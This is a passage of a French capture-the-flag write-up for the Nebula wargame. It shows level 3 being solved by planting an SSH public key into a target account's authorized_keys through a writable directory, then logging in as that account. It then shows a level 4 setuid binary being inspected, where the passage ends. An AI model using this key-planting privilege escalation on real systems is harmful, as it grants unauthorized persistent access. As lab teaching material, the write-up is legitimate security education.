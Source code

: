 ```shellsession
mkdir -p /home/flag03/.ssh
cp /tmp/ctf_key.pub /home/flag03/.ssh/authorized_keys
^C
level03@nebula:/home/flag03$ mv /tmp/test /home/flag03/writable.d/
```

Et ça fonctionne :

```shellsession
level03@nebula:/home/flag03$ chmod 600 /tmp/ctf_key
level03@nebula:/home/flag03$ ssh -i /tmp/ctf_key flag03@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

flag03@nebula:~$ id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
flag03@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## Level 4

On a un binaire setuid et un fichier qu'on ne peut pas lire. On retrouve le nom du fichier `token` dans le binaire ainsi qu'un `strstr`. Visiblement le binaire bloque tout nom de fichier qui contiendrait `token` :

```shellsession
level04@nebula:/home/flag04$ ls -l
total 8
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ strings flag04 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
exit
__stack_chk_fail
printf
strstr
read
open
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh 
QVhT
UWVS
[^_]
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ./flag04 ./token
You may not access './token'
```
